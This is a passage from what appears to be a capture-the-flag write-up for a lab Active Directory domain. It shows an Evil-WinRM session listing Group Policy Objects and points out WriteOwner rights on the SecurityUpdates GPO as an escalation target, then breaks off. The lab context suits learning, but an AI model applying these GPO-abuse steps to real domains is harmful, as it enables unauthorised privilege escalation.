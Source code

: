 we can check on pathfinding directly tho

![alt text](../assets/images/darkcorp34.png)

DONT FORGET WE HAVE `WRITEOWNER` on **SECURITYUPDATES**

```bash
*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> Get-GPO -All

DisplayName      : Default Domain Policy
DomainName       : darkcorp.htb
Owner            : darkcorp\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 12/29/2024 3:28:27 PM
ModificationTime : 12/29/2024 4:31:46 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 3, SysVol Version: 3
WmiFilter        :

DisplayName      : SecurityUpdates
DomainName       : darkcorp.htb
Owner            : darkcorp\Domain Admins
Id               : 652cae9a-4bb7-49f2-9e52-3361f33ce786

```

so our target  `652cae9a-4bb7-49f2-9e52-3361f33ce786`

we can also check with
